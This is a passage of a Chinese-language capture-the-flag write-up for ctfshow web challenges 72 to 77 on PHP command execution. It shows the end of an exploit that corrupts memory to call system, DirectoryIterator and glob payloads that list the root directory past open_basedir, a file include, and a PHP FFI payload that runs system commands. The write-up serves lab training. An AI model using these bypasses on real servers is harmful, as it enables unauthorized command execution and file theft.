 ```php
    write($abc, 0xd0 + 0x68, $zif_system); 

    ($helper->b)($cmd);
    exit();
}
ctfshow("cat /flag0.txt");ob_end_flush();
?>
```

### web73

查看目录

```php
$a=scandir('/');foreach($a as $value){echo $value." ";}exit();
$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');}exit();
//DirectoryIterator是php5中增加的一个类，为用户提供一个简单的查看目录的接口。
```

查看文件

```
include("/flagc.txt");exit();
```

### web74

payload:

```php
$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');}exit();
$a=new DirectoryIterator("/");foreach($a as $key=>$value){echo $key."=>".$value;}exit();
//这里不用glob协议，因为这题无open_basedir限制
//DirectoryIterator是php5中增加的一个类，为用户提供一个简单的查看目录的接口。
```

### web77

扫描目录

```
$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');}exit();
发现有一个flag36x.txt,还有一个readflag文件
```

[ctfshow web入门 命令执行web75-77](http://t.csdnimg.cn/F7M7K)

这里涉及到FFI扩展，参考

[FFI](https://www.php.net/manual/zh/ffi.cdef.php)

[PHP FFI详解 - 一种全新的PHP扩展方式](https://www.laruence.com/2020/03/11/5475.html)

payload:

```php
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//没有回显的
$ffi->system($a);//通过$ffi去调用system函数
```

访问1.txt即可

